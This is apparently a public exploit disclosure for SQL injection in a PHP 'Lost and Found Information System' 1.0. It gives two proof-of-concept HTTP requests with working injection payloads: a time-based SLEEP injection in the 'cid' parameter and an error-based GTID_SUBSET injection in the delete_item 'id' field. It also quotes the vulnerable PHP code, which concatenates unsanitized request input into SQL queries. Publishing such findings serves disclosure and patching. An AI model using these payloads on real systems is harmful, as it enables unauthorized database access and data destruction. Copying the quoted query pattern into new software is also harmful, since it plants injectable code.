 ### Exploit Title: Lost and Found Information System - Multiple SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./admin/lab.php
/?page=items&cid=1 SQL injection exists for parameter Section

### Sample request POC #1

```
GET /?page=items&cid=' AND (SELECT 8856 FROM (SELECT(SLEEP(5)))RZAm) AND 'XJUv'='XJUv HTTP/1.1
Host: [IP:PORT]
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1683787465919.png "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/items/index.php
```
<?php 
if(isset($_GET['cid'])){
    $category_qry = $conn->query("SELECT * FROM `category_list` where `id` = '{$_GET['cid']}'");
    if($category_qry->num_rows > 0){
        foreach($category_qry->fetch_assoc() as $k => $v){
            $cat[$k] = $v; 
        }
    }
}
?>
...
```


# 2./classes/Master.php?f=delete_item
### Sample request POC #2

```
POST /classes/Master.php?f=delete_item HTTP/1.1
Host: 10.211.55.3:8001
Content-Length: 221
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBKXTUMQFid7ol6Ro
Origin: http://10.211.55.3:8001
Referer: http://10.211.55.3:8001/?page=found
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBKXTUMQFid7ol6Ro
Content-Disposition: form-data; name="id"

' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(8125=8125,1))),0x71707a7071),8125)-- jKyA
------WebKitFormBoundaryBKXTUMQFid7ol6Ro
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1683788337596.png "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/classes/Master.php
```
...
function delete_item(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `item_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Item Data successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);

}
...
```
